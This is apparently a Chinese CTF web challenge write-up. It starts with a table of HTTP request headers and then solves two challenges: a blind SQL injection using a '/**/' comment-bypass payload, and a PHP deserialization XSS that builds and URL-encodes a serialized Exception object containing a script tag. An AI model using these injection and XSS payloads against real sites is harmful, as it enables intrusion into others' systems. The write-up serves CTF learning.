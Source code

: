 | **From**            | 发出请求的用户的Email                                        | From: user@email.com                                         |
| Host                | 指定请求的服务器的域名和端口号                               | Host: www.zcmhi.com                                          |
| If-Match            | 只有请求内容与实体相匹配才有效                               | If-Match: “737060cd8c284d8af7ad3082f209582d”                 |
| If-Modified-Since   | 如果请求的部分在指定时间之后被修改则请求成功，未被修改则返回304代码 | If-Modified-Since: Sat, 29 Oct 2010 19:43:31 GMT             |
| If-None-Match       | 如果内容未改变返回304代码，参数为服务器先前发送的Etag，与服务器回应的Etag比较判断是否改变 | If-None-Match: “737060cd8c284d8af7ad3082f209582d”            |
| If-Range            | 如果实体未改变，服务器发送客户端丢失的部分，否则发送整个实体。参数也为Etag | If-Range: “737060cd8c284d8af7ad3082f209582d”                 |
| If-Unmodified-Since | 只在实体在指定时间之后未被修改才请求成功                     | If-Unmodified-Since: Sat, 29 Oct 2010 19:43:31 GMT           |
| Max-Forwards        | 限制信息通过代理和网关传送的时间                             | Max-Forwards: 10                                             |
| Pragma              | 用来包含实现特定的指令                                       | Pragma: no-cache                                             |
| Proxy-Authorization | 连接到代理的授权证书                                         | Proxy-Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ==      |
| Range               | 只请求实体的一部分，指定范围                                 | Range: bytes=500-999                                         |
| **Referer**         | 先前网页的地址，当前请求网页紧随其后,即来路                  | Referer: [http://www.zcmhi.com/archives...](http://www.zcmhi.com/archives/71.html) |
| TE                  | 客户端愿意接受的传输编码，并通知服务器接受接受尾加头信息     | TE: trailers,deflate;q=0.5                                   |
| **Upgrade**         | 向服务器指定某种传输协议以便服务器进行转换（如果支持）       | Upgrade: HTTP/2.0, SHTTP/1.3, IRC/6.9, RTA/x11               |
| **User-Agent**      | User-Agent的内容包含发出请求的用户信息                       | User-Agent: Mozilla/5.0 (Linux; X11)                         |
| **Via**             | 通知中间网关或代理服务器地址，通信协议                       | Via: 1.0 fred, 1.1 nowhere.com (Apache/1.1)                  |
| Warning             | 关于消息实体的警告信息                                       | Warn: 199 Miscellaneous warning                              |



### 简单注入

扫描一遍网站，发现hint.txt。

发现过滤字符时，网站会alert一个stophacking。例如等号。

没有等号，可以试试网上的二分法求解。

`password=or/**/length(database())>0#&username=admin\`

判断成功，页面上出现xxx需要变得stronger。

判断无效，页面仍然是girlfriend。



### XSS之光

> 知识点： git泄露、反序列化漏洞、XSS

反序列化漏洞需要借助代码中的对象，由于泄露的代码中并没有对象，故而我们使用PHP内置的对象，类似于PWN的ROP。

7.0以上的版本可以用`Error`类，5.0或者7.0以上的可以用`Exception`类，因此`Exception`类更为适用。

```php
$a = new Exception("<script>window.location.href='https://github.com'</script>");
$b = serialize($a);
echo urlencode($b);

?yds_is_so_beautiful=O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A58%3A%22%3Cscript%3Ewindow.location.href%3D%27https%3A%2F%2Fgithub.com%27%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D


```
